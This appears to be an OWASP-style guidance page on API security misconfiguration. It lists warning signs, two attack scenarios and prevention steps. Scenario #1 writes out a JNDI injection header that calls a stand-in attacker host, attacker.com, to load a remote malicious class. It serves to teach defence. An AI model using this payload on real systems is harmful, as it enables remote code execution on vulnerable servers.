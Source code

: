 The API might be vulnerable if:

- Appropriate security hardening is missing across any part of the API stack, or if there are improperly configured permissions on cloud services
- The latest security patches are missing, or the systems are out of date
- Unnecessary features are enabled (e.g. HTTP verbs, logging features)
- There are discrepancies in the way incoming requests are processed by servers in the HTTP server chain
- Transport Layer Security (TLS) is missing
- Security or cache control directives are not sent to clients
- A Cross-Origin Resource Sharing (CORS) policy is missing or improperly set
- Error messages include stack traces, or expose other sensitive information

## Example Attack Scenarios

### Scenario #1

An API back-end server maintains an access log written by a popular third-party open-source logging utility with support for placeholder expansion and JNDI (Java Naming and Directory Interface) lookups, both enabled by default. For each request, a new entry is written to the log file with the following pattern: `<method> <api_version>/<path> - <status_code>`.

A bad actor issues the following API request, which gets written to the access log file:

```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

Due to the insecure default configuration of the logging utility and a permissive network outbound policy, in order to write the corresponding entry to the access log, while expanding the value in the `X-Api-Version`request header, the logging utility will pull and execute the `Malicious.class` object from the attacker's remote controlled server.

### Scenario #2

A social network website offers a "Direct Message" feature that allows users to keep private conversations. To retrieve new messages for a specific conversation, the website issues the following API request (user interaction is not required):

```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

Because the API response does not include the `Cache-Control` HTTP response header, private conversations end-up cached by the web browser, allowing malicious actors to retrieve them from the browser cache files in the filesystem.

## How To Prevent

The API life cycle should include:

- A repeatable hardening process leading to fast and easy deployment of a properly locked down environment
- A task to review and update configurations across the entire API stack. The review should include: orchestration files, API components, and cloud services (e.g. S3 bucket permissions)
- An automated process to continuously assess the effectiveness of the configuration and settings in all environments

Furthermore:

- Ensure that all API communications from the client to the API server and any downstream/upstream components happen over an encrypted communication channel (TLS), regardless of whether it is an internal or public-facing API.
- Be specific about which HTTP verbs each API can be accessed by: all other HTTP verbs should be disabled (e.g. HEAD).
- APIs expecting to be accessed from browser-based clients (e.g., WebApp front-end) should, at least:
- implement a proper Cross-Origin Resource Sharing (CORS) policy
- include applicable Security Headers
- Restrict incoming content types/data formats to those that meet the business/ functional requirements.
- Ensure all servers in the HTTP server chain (e.g. load balancers, reverse and forward proxies, and back-end servers) process incoming requests in a uniform manner to avoid desync issues.
- Where applicable, define and enforce all API response payload schemas, including error responses, to prevent exception traces and other valuable information from being sent back to attackers.